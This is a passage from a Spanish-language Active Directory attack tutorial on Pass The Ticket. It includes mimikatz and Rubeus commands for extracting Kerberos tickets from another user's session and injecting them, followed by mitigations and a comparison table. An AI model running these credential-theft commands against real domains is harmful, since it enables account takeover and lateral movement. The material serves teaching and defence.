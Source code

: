 Puedes usar `mimikatz` para extraerlo de otro usuario en el mismo equipo:

```mimikatz
sekurlsa::tickets
```

O usar `Rubeus` para solicitar e inyectar tickets automáticamente.

Ejemplo con `Rubeus`:

```powershell
Rubeus.exe asktgt /user:gustavo /domain:hack.local /rc4:<ntlm_hash> /ptt
```

---

### 🛡️ ¿Cómo mitigar Pass The Ticket?

1. **Evita que cuentas privilegiadas inicien sesión en máquinas compartidas**.
2. **Aplica LSA Protection** para impedir lectura de `lsass`.
3. **Audita uso anómalo de tickets** con SIEMs y Defender for Identity.
4. **Reduce el tiempo de vida de tickets Kerberos** para que expiren más rápido.
5. **Segmentación de red y cuentas**: evita que el robo de un ticket comprometa todo el dominio.

---

### 📚 Resumen visual

| Técnica             | Usa contraseña | Usa NTLM hash | Usa ticket Kerberos | Protocolo |
| ------------------- | -------------- | ------------- | ------------------- | --------- |
| Pass The Hash       | ❌ No          | ✅ Sí         | ❌ No               | NTLM      |
| Over Pass The Hash  | ❌ No          | ✅ Sí         | ✅ Sí (genera TGT)  | Kerberos  |
| **Pass The Ticket** | ❌ No          | ❌ No         | ✅ Sí               | Kerberos  |

---

### 🧪 Bonus: Crear y usar ticket `.kirbi` falso (solo para laboratorio)

```powershell
Rubeus.exe tgtdeleg /ptt
```

Esto genera un TGT válido de tu usuario actual si tienes delegación habilitada.

---

[🔼](#índice)

---

## **319. ASK-TGT/TGS**

### 🧠 ¿Qué es ASKTGT / ASKTGS?
